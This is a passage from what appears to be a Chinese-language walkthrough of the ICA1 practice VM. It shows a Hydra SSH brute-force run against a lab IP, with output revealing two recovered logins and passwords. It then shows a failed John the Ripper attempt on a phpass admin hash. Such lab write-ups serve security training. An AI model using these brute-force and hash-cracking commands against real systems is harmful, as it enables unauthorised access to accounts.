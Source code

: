   ```bash
  ┌──(root㉿kali)-[~/ica1]
  └─# hydra -e nsr -L users.txt -P passwords.txt 192.168.1.111 ssh -t 4 -o hydra.out 
  Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-02 12:44:29
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 40 login tries (l:5/p:8), ~10 tries per task
  [DATA] attacking ssh://192.168.1.111:22/
  [22][ssh] host: 192.168.1.111   login: travis   password: DJceVy98W28Y7wLg
  [22][ssh] host: 192.168.1.111   login: dexter   password: 7ZwV4qtg42cmUXGX
  1 of 1 target successfully completed, 2 valid passwords found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-02 12:44:55
  ```
  
  <mark>login: </mark> `travis` <mark>password:</mark>  `DJceVy98W28Y7wLg`
  
  <mark>login: </mark> `dexter` <mark>password:</mark>  `7ZwV4qtg42cmUXGX`

## <p id="支线二">支线二：使用 JOHN 对管理员密码进行破解</p>

- 将密码hash保存到文件`pass.hash`
  
  ```bash
  $P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0
  ```

- 查看密码加密类型
  
  ```bash
  hashid -j pass.hash
  ```

- 开始破解
  
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass pass.hash
  ```

- 破解失败
